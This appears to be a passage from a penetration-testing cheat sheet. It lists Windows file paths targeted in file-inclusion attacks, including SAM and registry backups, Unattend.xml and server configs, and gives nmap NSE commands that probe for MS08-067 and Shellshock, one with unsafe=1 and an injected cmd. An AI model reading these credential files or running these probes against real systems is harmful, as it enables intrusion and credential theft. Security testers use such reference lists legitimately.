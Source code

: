 ```bash
C:/Program Files/MySQL/MySQL Server 5.0/data/hostname.err
C:/Program Files/MySQL/MySQL Server 5.0/data/mysql-bin.log
C:/Program Files/MySQL/MySQL Server 5.0/data/mysql.err
C:/Program Files/MySQL/MySQL Server 5.0/data/mysql.log
C:/Program Files/MySQL/MySQL Server 5.0/my.cnf
C:/Program Files/MySQL/MySQL Server 5.0/my.ini
C:/Program Files (x86)/Apache Group/Apache2/conf/httpd.conf
C:/Program Files (x86)/Apache Group/Apache/conf/httpd.conf
C:/Program Files (x86)/Apache Group/Apache/conf/access.log
C:/Program Files (x86)/Apache Group/Apache/conf/error.log
C:/Program Files (x86)/FileZilla Server/FileZilla Server.xml
C:/Program Files (x86)/xampp/apache/conf/httpd.conf
C:/WINDOWS/php.ini
C:/WINDOWS/Repair/SAM
C:/Windows/repair/system
C:/Windows/repair/software
C:/Windows/repair/security
C:/WINDOWS/System32/drivers/etc/hosts
C:/Windows/win.ini
C:/WINNT/php.ini
C:/WINNT/win.ini
C:/xampp/apache/bin/php.ini
C:/xampp/apache/logs/access.log
C:/xampp/apache/logs/error.log
C:/Windows/Panther/Unattend/Unattended.xml
C:/Windows/Panther/Unattended.xml
C:/Windows/debug/NetSetup.log
C:/Windows/system32/config/AppEvent.Evt
C:/Windows/system32/config/SecEvent.Evt
C:/Windows/system32/config/default.sav
C:/Windows/system32/config/security.sav
C:/Windows/system32/config/software.sav
C:/Windows/system32/config/system.sav
C:/Windows/system32/config/regback/default
C:/Windows/system32/config/regback/sam
C:/Windows/system32/config/regback/security
C:/Windows/system32/config/regback/system
C:/Windows/system32/config/regback/software
C:/Program Files/MySQL/MySQL Server 5.1/my.ini
C:/Windows/System32/inetsrv/config/schema/ASPNET_schema.xml
C:/Windows/System32/inetsrv/config/applicationHost.config
C:/inetpub/logs/LogFiles/W3SVC1/u_ex[YYMMDD].log
```

## Useful NSE scripts
```bash
#smb-vuln-ms08-067
nmap --script-args=unsafe=1 --script smb-vuln-ms08-067.nse -p 445 <host>

#http-shellshock
nmap -sV -p- --script http-shellshock --script-args uri=/cgi-bin/{location},cmd=ls <target>
```
